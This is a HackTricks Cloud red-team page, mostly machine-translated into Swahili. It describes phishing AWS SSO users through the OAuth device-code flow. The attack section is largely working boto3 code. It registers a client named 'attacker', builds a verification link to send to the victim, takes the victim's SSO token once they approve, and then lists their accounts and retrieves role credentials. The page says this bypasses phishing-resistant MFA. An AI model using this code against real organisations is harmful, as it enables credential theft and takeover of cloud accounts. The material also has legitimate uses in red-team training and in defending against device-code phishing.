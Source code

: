 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Kwanza ilipendekezwa katika [**hiki kipande cha blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), inawezekana kutuma **kiungo** kwa mtumiaji anaye tumia AWS SSO kwamba ikiwa **mtumiaji atakubali** mshambuliaji ataweza kupata **token ya kujifanya kuwa mtumiaji** na kufikia majukumu yote ambayo mtumiaji anaweza kufikia katika **Kituo cha Utambulisho**.

Ili kutekeleza shambulio hili, mahitaji ni:

* Mwathirika anahitaji kutumia **Kituo cha Utambulisho**
* Mshambuliaji lazima ajue **subdomain** inayotumiwa na mwathirika `<victimsub>.awsapps.com/start`

Kwa kutumia taarifa hii pekee, **mshambuliaji ataweza kutuma kiungo kwa mtumiaji** kwamba ikiwa **kikubali** kitampa **mshambuliaji ufikiaji wa akaunti ya mtumiaji wa AWS**.

### Attack

1. **Kugundua subdomain**

Hatua ya kwanza ya mshambuliaji ni kugundua subdomain ambayo kampuni ya mwathirika inatumia katika Kituo chao cha Utambulisho. Hii inaweza kufanywa kupitia **OSINT** au **kukisia + BF** kwani kampuni nyingi zitakuwa zikitumika jina lao au toleo la jina lao hapa.

Kwa kutumia taarifa hii, inawezekana kupata eneo ambapo Kituo cha Utambulisho kilipangwa na:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Tengeneza kiungo kwa mwathiriwa & Tuma**

Run the following code to generate an AWS SSO login link so the victim can authenticate.\
Kwa ajili ya onyesho, run this code in a python console and do not exit it as later you will need some objects to get the token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Send the generated link to the victim using you awesome social engineering skills!

3. **Subiri hadi mwathiriwa akubali**

Ikiwa mwathiriwa alikuwa **tayari ameingia AWS** atahitaji tu kukubali kutoa ruhusa, ikiwa hakuwa, atahitaji **kuingia na kisha kukubali kutoa ruhusa**.\
Hii ndiyo jinsi ya kuonyesha inavyoonekana siku hizi:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Pata token ya SSO**

Ikiwa mwathiriwa alikubali kuonyesha,endesha hii code ili **kuunda token ya SSO kwa kujifanya kuwa mtumiaji**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
The SSO access token is **valid for 8h**.

5. **Jifanya kuwa mtumiaji**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Ni furaha kujua kwamba shambulio la awali **linafanya kazi hata kama "MFA isiyoweza kudanganywa" (webAuth) inatumika**. Hii ni kwa sababu **mchakato wa awali hauondoki kwenye eneo la OAuth lililotumika**. Si kama katika shambulio nyingine za phishing ambapo mtumiaji anahitaji kubadilisha eneo la kuingia, katika kesi ambapo mchakato wa nambari ya kifaa umeandaliwa hivyo **nambari inajulikana na kifaa** na mtumiaji anaweza kuingia hata kwenye mashine tofauti. Ikiwa ombi litakubaliwa, kifaa, kwa **kujua nambari ya awali**, kitakuwa na uwezo wa **kurejesha akiba** kwa mtumiaji.

Kwa maelezo zaidi kuhusu hii [**angalia chapisho hili**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
